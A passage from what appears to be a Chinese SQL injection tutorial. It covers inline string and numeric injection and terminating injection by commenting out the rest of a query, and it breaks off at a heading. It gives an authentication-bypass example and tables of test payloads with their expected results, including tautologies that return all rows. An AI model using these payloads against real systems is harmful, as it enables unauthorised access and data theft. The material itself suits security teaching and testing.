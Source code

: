 ### 内联SQL注入(Inline SQL Injection)

内联注入是指向查询注入SQL代码后，原来的查询仍然会全部执行，分为两种：

1. 字符串内联注入

	首先是通过引发异常来判断是否有SQL漏洞，然后构思一条有效地SQL语句，该语句应能满足应用施加的条件一边绕过身份验证控制；
    
    
示例：

```
SELECT * FROM members WHERE username = '' OR '1'='1' AND password = '';
SELECT * FROM members WHERE (username = '' OR '1'='1') AND (password = '');
```

可用注入字符串特征值：

测试字符串|变种|预期结果
--- | --- | ---
' |  | 触发错误。如果成功，数据库返回错误信息
1' OR '1'='1 |	1') OR ('1'='1 | 永真条件，如果成功，将返回表中所有行
value' OR '1'='2 | value') OR ('1'='2 | 空条件，如果成功，将会返回和原来语句一样的结果
1' AND '1'='2	| 1')  AND ('1'='2 |永假条件，如果成功，将不返回表中所有行
1' OR 'ab'='a''b	| 1') OR ('ab'='a' 'b |	MySQL 字符串连接。如果成功，将返回与永真条件相同的信息

2. 数字值内联注入

	跟字符串内联注入方式一样也是通过异常来判断是否有SQL漏洞。

可用注入数字特征值：

测试字符串| 变种|预期结果
---|---|---
'	| | 触发错误。如果成功，数据库返回错误信息
1+1	| 3-1	| 如果成功，将返回与操作结果相同的值
value+0	| | 如果成功，将返回与操作结果相同的值
1 OR 1=1	| 1) OR (1=1	| 永真条件。如果成功，将返回表中所有行
value OR 1=2 | value) OR (1=2 | 空条件，如果成功，将会返回和原来语句一样的结果
1 AND 1=2 | 1) AND (1=2	| 永假条件，如果成功，将不返回表中所有行
1 OR 'ab'='a' 'b | 1) OR ('ab'='a' 'b	| MySQL 字符串连接。如果成功，将返回与永真条件相同的信息

### 终止式SQL注入

终止式SQL注入是指攻击者在注入SQL代码时，通过将原查询语句的剩余部分注释掉，从而成功结束原来的查询语句

#### 数据库注释语法

数据库 | 注释 | 描述
---- |--- |---
SQL Server,Oracle,PostgreSQL |--	| 用于单行注释
SQL Server,Oracle,PostgreSQL |	/* */	| 用于多行注释
MySQL	|--	| 用于单行注释，第二个连字符后面需要加一个空格或控制字符(制表符、换行符)
MySQL	| #	|用于单行注释
MySQL	| /* */	| 用于多行注释


可用注释语句特征值：
